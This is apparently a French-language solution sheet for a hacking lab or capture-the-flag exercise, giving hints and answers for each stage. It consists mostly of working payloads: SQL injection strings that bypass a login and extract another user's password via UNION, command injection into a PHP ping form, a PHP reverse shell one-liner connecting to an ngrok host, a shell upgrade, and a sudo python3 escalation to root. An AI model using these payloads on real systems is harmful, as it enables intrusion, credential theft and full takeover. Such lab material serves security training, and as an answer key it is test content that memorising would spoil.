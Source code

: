 # Injection SQL 1 - Passer le login

mettre " pour avoir une erreur


* Solution:
    Mettre en username : " OR 1=1 OR ""="

Mais on est login en tant que "admin", pas l'autre user !

* Indice 1 :
    Injection SQL

* Indice 2 : 
    SELECT * FROM data.users WHERE username = "$username" AND password="$password"

# Injection SQL 2 - Récupérer le mot de passe de l'autre utilisateur

* Indice 1 : 
    SELECT * FROM data.users WHERE username = "$username" AND password="$password"
    (dur sans connaître le nom de la base !)

SELECT * FROM data.users WHERE username = "a" AND password="" UNION SELECT 1,password as username,2 FROM data.users WHERE username!="admin"

* Solution :
    Mettre en user : (n'importe quoi)
    Mettre en mdp : " UNION SELECT 1,password as username,2 FROM data.users WHERE username!="admin

# RCE PHP - Ping

* Solution:
    ;ls
    ;whoami

reverse shell : https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
nc -l -p 12345 
ngrok tcp 12345
php -r '$sock=fsockopen("2.tcp.ngrok.io",15705);exec("/bin/sh -i <&3 >&3 2>&3");'

upgrade : 
python3 -c 'import pty;pty.spawn("/bin/bash")';

# PrivEsc : Sudo
sudo -l

User www-data may run the following commands on machine1:
    (root) NOPASSWD: /usr/bin/python3

* Solution
    sudo python3 -c "import os;os.system('whoami')"
    sudo python3 -c "import os;os.system('bash')"